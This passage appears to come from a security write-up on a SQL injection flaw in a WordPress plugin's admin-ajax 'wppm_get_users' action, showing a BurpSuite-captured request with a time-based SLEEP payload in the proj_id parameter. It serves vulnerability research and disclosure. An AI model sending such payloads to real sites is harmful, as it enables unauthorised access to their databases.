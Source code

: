 👉 Clicking the **icon next to Users** triggers Ajax, sending a request to the server to fetch project users and render them in HTML.

![modal display](model_display.png "Model display")

## Exploit

### Detect SQLi

Capture requests using BurpSuite and send a **time-based SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
...
action=wppm_get_users&proj_id=(SELECT+SLEEP(1))
```

![sqli_success](sqli_success.png "Sqli success")
